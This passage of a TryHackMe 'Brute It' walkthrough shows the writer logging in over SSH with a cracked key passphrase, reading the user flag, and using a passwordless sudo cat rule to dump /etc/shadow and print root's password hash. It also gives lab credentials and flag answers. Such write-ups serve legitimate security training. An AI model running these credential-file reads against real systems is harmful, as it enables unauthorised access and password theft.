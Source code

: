 RSA key passphrase: `rockinroll`

Now that we have the password for the RSA key, we can login via SSH. We just need to set the key permission to 600, cuz simply, that's how they like to be treated. Btw, we have the username (`john`) which we found in the source code of the login page. After logging in, we can see the user flag in john's home directory:

~~~
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Brute_It/files]
└─$ chmod 600 id_rsa 
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Brute_It/files]
└─$ ssh -i id_rsa john@$IP
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Sep 25 11:16:40 UTC 2021

  System load:  0.0                Processes:           99
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 37%                IP address for eth0: 10.10.37.84
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$ id
uid=1001(john) gid=1001(john) groups=1001(john),27(sudo)
john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt 
THM{a_password_is_not_a_barrier}
~~~

User flag: `THM{a_password_is_not_a_barrier}`


# [Task 4] Privilege Escalation


## Root's Password

Now, we need to escalate our privileges. I ran `sudo -l` and I can run `cat` command with sudo and no password. We can just use this permission to read the root flag file, but the challenge is to gain root access. To do so, we need to have the root password. All the password hashes are saved in `/etc/shadow` which we can be read with having this permission:
~~~
john@bruteit:~$ sudo cat /etc/shadow | head -n1
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
~~~
